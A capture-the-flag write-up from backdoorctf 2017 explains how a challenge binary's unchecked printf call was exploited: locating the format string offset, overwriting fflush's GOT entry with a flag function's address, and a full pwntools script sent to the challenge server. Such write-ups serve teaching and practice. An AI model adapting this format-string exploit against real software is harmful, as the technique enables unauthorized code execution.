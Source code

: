 ```yaml
---
title: backdoorctf 2017 - BABY 0x41414141 Writeup
date: '2017-09-24'
lastmod: '2023-07-03T19:19:24+02:00'
categories:
- ctf_backdoorctf17
- writeup
- backdoorctf17
tags:
- exploitation
authors:
- andreafioraldi
---
```


Executing the binary for the first time we have this behaviour:

<img class="img-responsive" src="/backdoorctf17/baby-1.png" alt="Screenshot showing program prompt to enter user name" width="603" height="83">

Ok, cool, decompile it.

This is the main function:

<img class="img-responsive" src="/backdoorctf17/baby-2.png" alt="Code snippet showing decompiled main() function with vulnerable printf() and fflush() calls" width="603" height="204">

Note: edata is in .bss and it is stdin

Immediatly we see the dumb `printf(&format)` call. Format string exploit? Yes.

After the vulnerable printf there is a fflush call, so i choose to overwrite its entry in the GOT.

In the functions list we can see the `flag(void)` function:

<img class="img-responsive" src="/backdoorctf17/baby-3.png" alt="Screenshot of decompiler showing 'flag(void)' function definition, which executes cat flag.txt" width="603" height="238">

Now we must write an exploit to overwrite the fflush entry with the address of flag.

Because the flag address is a really big number i decided to split the format string in two write steps.

Above all we must locate the printf's parameter index corrispondent to the first 4 bytes of the buffer:

We try `AAAA %{INDEX}$p` with various indexes, and finally we get that with `AAAA %10$p` the program prints 0x41414141.

In the exploit we must write the last 2 bytes of the flag's address to the fflush got entry and the first two bytes to the got entry +2.

Remember that %n writes always 4 bytes.

Adjusting the number of printed chars to fit the flag address we have the exploit.

TADAAA

```python
from pwn import *

flag_func = 0x0804870B
fflush_got = 0x0804A028

off1 = 0x870B - 8 - len("Ok cool, soon we will know whether you pwned it or not. Till then Bye ")
off2 = (0x0804 - 0x870B) & 0xFFFF

format = p32(fflush_got) + p32(fflush_got +2) + "%" + str(off1) + "c%10$n%" + str(off2) + "c%11$n"

#p = process("./32_new")
p = remote("163.172.176.29", 9035)

print p.recvline(False)

p.sendline(format)

print p.readall()
```

